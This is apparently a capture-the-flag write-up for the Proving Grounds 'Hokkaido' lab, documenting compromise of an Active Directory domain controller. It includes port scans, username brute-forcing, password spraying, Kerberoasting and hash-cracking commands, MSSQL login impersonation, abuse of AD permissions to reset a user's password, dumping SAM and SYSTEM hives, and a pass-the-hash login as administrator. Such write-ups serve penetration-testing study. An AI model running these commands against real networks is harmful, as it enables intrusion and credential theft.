Nmap scan.

```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.142.40
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-01 11:03 IST
Nmap scan report for 192.168.142.40
Host is up (0.12s latency).
Not shown: 65502 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8530/tcp  open  unknown
8531/tcp  open  unknown
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49671/tcp open  unknown
49675/tcp open  unknown
49684/tcp open  unknown
49685/tcp open  unknown
49691/tcp open  unknown
49700/tcp open  unknown
49701/tcp open  unknown
49712/tcp open  unknown
58538/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.99 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 53,80,88,135,139,389,445,464,593,636,1433,3268,3269,3389,5985,8530,8531,9389,47001,49664,49665,49666,49667,49668,49671,49675,49684,49685,49691,49700,49701,59712,58538 192.168.142.40
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-01 11:06 IST
Nmap scan report for 192.168.142.40
Host is up (0.13s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Simple DNS Plus
80/tcp    open   http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-01 05:36:52Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
|_ssl-date: 2026-04-01T05:37:51+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
445/tcp   open   microsoft-ds?
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
|_ssl-date: 2026-04-01T05:37:51+00:00; 0s from scanner time.
1433/tcp  open   ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   192.168.142.40:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2026-04-01T05:37:51+00:00; -1s from scanner time.
| ms-sql-ntlm-info: 
|   192.168.142.40:1433: 
|     Target_Name: HAERO
|     NetBIOS_Domain_Name: HAERO
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: hokkaido-aerospace.com
|     DNS_Computer_Name: dc.hokkaido-aerospace.com
|     DNS_Tree_Name: hokkaido-aerospace.com
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-08-02T02:13:54
|_Not valid after:  2054-08-02T02:13:54
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
|_ssl-date: 2026-04-01T05:37:52+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
3269/tcp  open   ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
|_ssl-date: 2026-04-01T05:37:52+00:00; 0s from scanner time.
3389/tcp  open   ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HAERO
|   NetBIOS_Domain_Name: HAERO
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hokkaido-aerospace.com
|   DNS_Computer_Name: dc.hokkaido-aerospace.com
|   DNS_Tree_Name: hokkaido-aerospace.com
|   Product_Version: 10.0.20348
|_  System_Time: 2026-04-01T05:37:43+00:00
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Not valid before: 2026-03-31T05:32:30
|_Not valid after:  2026-09-30T05:32:30
|_ssl-date: 2026-04-01T05:37:52+00:00; 0s from scanner time.
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8530/tcp  open   http          Microsoft IIS httpd 10.0
|_http-title: 403 - Forbidden: Access is denied.
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
8531/tcp  open   unknown
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49666/tcp open   msrpc         Microsoft Windows RPC
49667/tcp open   msrpc         Microsoft Windows RPC
49668/tcp open   msrpc         Microsoft Windows RPC
49671/tcp open   msrpc         Microsoft Windows RPC
49675/tcp open   msrpc         Microsoft Windows RPC
49684/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49685/tcp open   msrpc         Microsoft Windows RPC
49691/tcp open   msrpc         Microsoft Windows RPC
49700/tcp open   msrpc         Microsoft Windows RPC
49701/tcp open   msrpc         Microsoft Windows RPC
58538/tcp open   ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   192.168.142.40:58538: 
|     Target_Name: HAERO
|     NetBIOS_Domain_Name: HAERO
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: hokkaido-aerospace.com
|     DNS_Computer_Name: dc.hokkaido-aerospace.com
|     DNS_Tree_Name: hokkaido-aerospace.com
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-08-02T02:13:54
|_Not valid after:  2054-08-02T02:13:54
| ms-sql-info: 
|   192.168.142.40:58538: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 58538
|_ssl-date: 2026-04-01T05:37:52+00:00; 0s from scanner time.
59712/tcp closed unknown
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-01T05:37:47
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.94 seconds
```

First we tried SMB enumeration with null session. We got nothing.



We tried crackmapexec SMB. No luck.



We tried enum4linux and enum4linux-ng also. But nothing found interesting.





Performed ldapsearch but got no luck.



So i decided to brute force for username using kerbrute.

```sh
kerbrute userenum -d hokkaido-aerospace.com --dc 192.168.142.40 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100
```



So we found 4 users:
```
info  
administrator  
discovery  
maintenance
```

With the new usernames, I retest RID brute-forcing and null sessions but they still fail. **AS-REP** roasting comes up empty too, so I tried password spraying usernames against themselves. **OR we can create password list using below.** 

```
Winter2023  
Summer2023  
Spring2023  
Fall2023  
info  
administrator  
discovery  
maintenance  
ofni  
rotartsinimda  
yrevocsid  
ecnanetniam
```

I used same username list as password for password spraying.



We found valid credentials `info : info`. We can move past the anonymous access restrictions and start pulling real data from the domain controller. Now with valid creds options open up: Kerberoasting, share access, and user enumeration etc. Let’s check for shares.



On Homes share found directories create with name user’s name. Inside those directories didn't found anything.



and on NETLOGON Share there is a temp folder which has a file password_reset.txt



Found another user with the password `Start123!`



We found another set of credential, `discovery:Start123!`, Tried to do Winrm but Both Credentials didn't work.



Then i Tried do kerberoasting with the credentials i have.

```sh
impacket-GetUserSPNs -dc-ip 192.168.142.40 hokkaido-aerospace.com/discovery:Start123! -request
```



Found that there are 2 kerberoastable users discovery and maintenance, for discovery user we already have password of this user and i tried to crack maintenance user’s hash but it didn't cracked so i move to mssql service with the credentials I have. I logged in successfully with discovery creds.

```sh
impacket-mssqlclient 'hokkadido-aerospace.com/discovery':'Start123!'@192.168.142.40 -dc-ip 192.168.142.40 -windows-auth
```



We followed below commands to enumerate mssql service.

```
SELECT name FROM master..sysdatabases;
OR
select name FROM sysdatabases;                # List Databases

Use hrappdb                                   # Switch Database

SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'        # To find impersonation user

EXECUTE AS LOGIN = 'hrappdb-reader';            # switch user

Use hrappdb                                     # Switch Database

SELECT name FROM sys.tables;                     # List tables
OR
SELECT * FROM hrappdb.INFORMATION_SCHEMA.TABLES;

SELECT * FROM sysauth;                           # List data of table
```



Even though I logged in as discovery, the database mapped us to guest internally. So discovery runs as guest with no sysadmin rights or hrappdb access which really limits our enumeration, we can check if we can impersonate any accounts, more about mssql attack [here](https://www.redteamgarage.com/attacking-mssql).



_hrappdb-reader_ is the user we can impersonate, we can run **EXECUTE AS LOGIN** command to login and run as hrappdb-reader.




and we got successful. let view the data:



`hrapp-service : Untimed$Runny `

Tried to do winrm login with this creds but no luck, then i further moove with bloodhound-python.

```sh
bloodhound-python -d hokkaido-aerospace.com -u hrapp-service -p 'Untimed$Runny' -ns 192.168.142.40 -c all
```



Started neo4j.



Started bloodhound.



after loading the zip file on bloodhound, We can see hrapp-service has genericWrite Permission To Hazel.Green user which is tier2admin.

Observer and understand the below images properly.













As you can see in the image above the hrapp-service account has **GenericWrite** over hazel.green who is a member of the _TIER2-ADMINS_ group. This group has **ForceChangePassword** permissions over **molly.smith** who turns out to be a member of _TIER1-ADMINS_ and other sensitive groups like **SERVER OPERATORS** and **WSUS ADMINISTRATORS**.

There are two ways we can do this with GenericWrite over hazel.green. **First** is Shadow Credentials which involves adding a public key to the msDS-KeyCredentialLink attribute so we can authenticate as her using a certificate. The **second** is to set an SPN on Hazel’s account which makes it kerberoastable for offline hash cracking and we are going to do that using bloodyAD then once the attribute is updated I use GetUserSPNs to request the ticket for her account.

**We tried changing SPN for user HAZEL with the use of bloodyAD and impacket-setspn but we failed as both the tools didn't work.**

Tried TargetedKerberoasting and got hash of the hazel.green user.

https://github.com/ShutdownRepo/targetedKerberoast



```sh
python3 targetedKerberoast.py -v -d 'hokkaido-aerospace.com' -u 'hrapp-service' -p 'Untimed$Runny' --dc-ip 192.168.142.40
```



Cracking hash using hachcat and john.

```sh
hashcat -m 13100 hazel_hash.txt /usr/share/wordlists/rockyou.txt
```



```sh
john hazel_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



Now that we have Hazel’s password, we can move forward with the path BloodHound showed us. Since Hazel has ForceChangePassword permissions over molly.smith, we can use **rpcclient** to reset and change the password, you can read about it in this [post](https://malicious.link/posts/2017/reset-ad-user-password-with-linux/#:~:text=In%20order%20to%20change%20a,Numbers%20Dynamic%20DNS%20Update%20Module), but I’ll stick with bloodyAD to keep things simple.

`hazel.green : haze1988`



now password of molly.smith is set to ‘Password123!’  
Now Login to molly.smith account using RDP and capture the local flag.



### Privilege Escalation

open cmd as administrator and give molly.smith’’s username and password then run.



We’re in as molly.smith. Even though SeBackupPrivilege and SeRestorePrivilege show as disabled, being in [**Server Operators**](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators) still gives us the ability to stop and start services, back up and restore files, and mess with the system state. That means we can copy the SAM and SYSTEM hives and extract the local admin hash offline but instead I’m going to add a user using registry and also make molly domain admin.





We can see the We have SeBackupPrivilege so lets copy sam and system file to temp folder.
```cmd
reg save hklm\sam C:\Users\molly.smith\Desktop\sam

reg save hklm\system C:\Users\molly.smith\Desktop\system
```




the copy both file to attacker machine andrun impacker-secretdump tool. 
**Here, I generate the sam and syetm hives by logging in through remina and then copied to local system by logging in through xfreerdp.**

```sh
/usr/bin/impacket-secretsdump -sam sam -system system local
```



now evil-winrm to the machine using administrator account:

```sh
evil-winrm -i 192.168.173.40 -U administrator -H 'd752482897d54e239376fddb2a2109e4'
```





Reference link :
https://medium.com/@sakyb7/proving-grounds-hokkaido-tjnull-oscp-prep-ca34df1e6491

https://medium.com/@NullEsc/proving-grounds-hokkaido-5f52017de938


